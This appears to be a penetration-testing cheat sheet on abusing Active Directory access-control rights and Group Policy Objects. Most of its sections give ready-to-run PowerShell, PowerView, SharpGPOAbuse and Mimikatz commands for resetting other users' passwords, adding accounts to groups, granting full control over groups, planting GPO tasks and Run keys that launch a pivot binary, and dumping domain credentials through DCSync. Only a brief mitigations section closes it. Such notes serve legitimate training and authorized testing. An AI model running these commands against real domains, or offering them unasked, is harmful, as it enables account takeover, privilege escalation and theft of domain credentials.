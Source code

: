# Abusing ACLs and GPOs

## GenericAll

### On User

If we have some form of GenericAll on a user, we can simply reset the password of this user without knowing their current password

```powershell
net user vulnerable_username youhavebeenpwned@! /domain
```

### On Group

For Groups, we can just add our current user into the group and then be able to gain more privileges that way.

```powershell
net group "Vulnerable Group" compromised_user /add /domain

# PowerSploit
Add-NetGroupUser -Username <user> -GroupName <group> -Domain <domain>

# AD Module
Add-ADGroupMember -Identity "<group"> -Members <user>
```

## GenericAll / GenericWrite on Computer

If we have privileges over an object, we can opt to either abuse this ACL or use [Kerberos Resource-Based Constrained Delegation](../kerberos/attacking-kerberos.md#resourced-based-constrained-delegation).

## GenericWrite on User

With this, we are able to chagne the Script-Path of the logon script of the user. In short, whenever we login to Windows, there is a .bat file or something with a ton of commands in there that are executed. This can be modified, and we could gain a reverse shell everytime a user logs in, for example.

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -ResolveGUIDs -SamAccountName <user> | ? {$_.IdentityReference -eq "<domain>\<user>"}
```
{% endcode %}

## WriteProperty on Group

Since our compromised user is able to write the group, we can add any user we want into the group.

```powershell
net group "<group name>" <user> /add /domain
```

## ForceChangePassword

With PowerView, we can force a change of another user's password, or we can try to convert the password to a secure string and then be able to change it from there

{% code overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <user> -Verbose
# directly change

$cred = "password@123!"
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString $cred -AsPlainText -Force) -Verbose
# change password with secure string
```
{% endcode %}

## WriteOwner on Group

If we have WriteOwner on a Group, then we can simply change the ownership of this group to someone else.

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=<group name>,CN=Users,DC=domain,DC=local" -and $_.IdentityReference -eq "domain\user"}
#find SID of the group

Set-DomainObjectOwner -Identity S-1-5-21... -OwnerIdentity "<user>" -Verbose
```
{% endcode %}

Once we are the owner of the group, we can simply add whoever we want to this group.

## WriteDACL + WriteOwner

With these two privileges over a group, we are able to **change our privileges to whatever we want.** Obviously the best is the GenericAll privilege.

{% code overflow="wrap" %}
```powershell
$ADSI = [ADSI]"LDAP://CN=<group>,CN=Users,DC=domain,DC=local"

$IdentityReference = (New-Object System.Security.Principal.NTAccount("<user>")).Translate([System.Security.Principal.SecurityIdentifier])

$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"

$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)

$ADSI.psbase.commitchanges()
```
{% endcode %}

## Self-Membership

Attackers can add whoever they want into the group.

```
net group "<group name>" <user> /add /domain
```

## GPO Abuse

Suppose there are weak permissions over the domain GPOs, and we can edit them. GPOs typically have some kind of script that is consistenly running on a system, like a cronjob. We can change these to execute commands as the SYSTEM user, which normally runs GPOs as well.

These use PowerView, or the SharpGPOAbuse.exe binary.

{% code overflow="wrap" %}
```powershell
# create new GPO task and execute immediately
New-GPOImmediateTask -TaskName task01 -Command cmd -CommandArguments "/c whoami" -GPODisplayName "Misconfigured Policy" -Verbose -Force

# create new GPO and specify new task, such as running pivot.exe 
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"

Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString

# using .exe to exploit this easily
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

#refreshes and reruns all scripts for GPOs, including malicious ones
gpupdate /force
```
{% endcode %}

{% embed url="https://github.com/FSecureLABS/SharpGPOAbuse" %}

## DCSync Attacks

This attack would simulate the behaviour of the Domain Controller and asks the other DCs to copy information. The function for DCs to copy information from one another is critical to daily operations, and hence cannot be turned off.

Once identified, we are able to either exploit it locally or remotely:

```bash
# local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\user"'
# remote
secretsdump.py -just-dc <user>:<password>@<ipaddress>
```

## Mitigations

### Check Privileges

Ensure that the privileges are not assigned, and only to users that need it

### Password Complexity

Change passwords every so often, and make sure that accounts with high privileges don't have something stupid like your birthday as a password.

### Update Domain Software

A little hard, but still needed. Most of the time, these privileges aren't checked and monitored too often, and some companies tend to start using the AD network out of the box. It is key to keep the system updated, as Microsoft would frequently change the default permissions on objects and policies within the domain
